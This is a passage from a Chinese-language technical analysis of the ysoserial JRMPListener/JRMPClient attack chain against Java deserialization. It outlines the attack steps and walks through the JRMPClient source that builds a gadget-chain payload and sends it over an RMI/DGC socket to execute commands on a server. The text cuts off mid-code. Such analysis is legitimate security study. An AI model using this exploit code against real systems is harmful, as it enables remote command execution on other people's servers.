 [![](assets/1701612165-32565bdb2461c70b7caee670edef4fe5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810224937-209c0f02-378d-1.png)  
服务端成功命令执行

### 攻击流程

1.  payloads.JRMPListener 生成 payload1，用于在服务器上开启一个 rmi 端口（这里的端也是服务端）
2.  服务端接收到 payload1 后，进行反序列化，成功开启 9999 端口并监听
3.  exploit.JRMPClient 端生成恶意 payload2，并向服务端发送
4.  服务端检测到端口上有数据请求，经过解包、反序列化（rmi 中的知识）后导致命令执行

### exploit.JRMPClient 分析

**第一步**：生成 payload  
在 exploit.JRMPClient 的 main 函数中，使用下面这句代码生成 CC1 链所需要的 payload

```bash
Object payloadObject = Utils.makePayloadObject(args[2], args[3]);
```

**第二步**：

```bash
makeDGCCall(hostname, port, payloadObject);
```

进入该函数

```bash
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
    // 创建网络地址
    InetSocketAddress isa = new InetSocketAddress(hostname, port);
    Socket s = null;
    DataOutputStream dos = null;
    try {
        // 创建套接字和输出流
        s = SocketFactory.getDefault().createSocket(hostname, port);
        s.setKeepAlive(true);
        s.setTcpNoDelay(true);

        OutputStream os = s.getOutputStream();
        dos = new DataOutputStream(os);

        // 向输出流写入一系列字节，表示调用相关的信息。这些信息包括魔数、版本、协议类型、调用类型等
        dos.writeInt(TransportConstants.Magic);
        dos.writeShort(TransportConstants.Version);
        dos.writeByte(TransportConstants.SingleOpProtocol);

        dos.write(TransportConstants.Call);

        @SuppressWarnings ( "resource" )
        // 创建对象输出流
```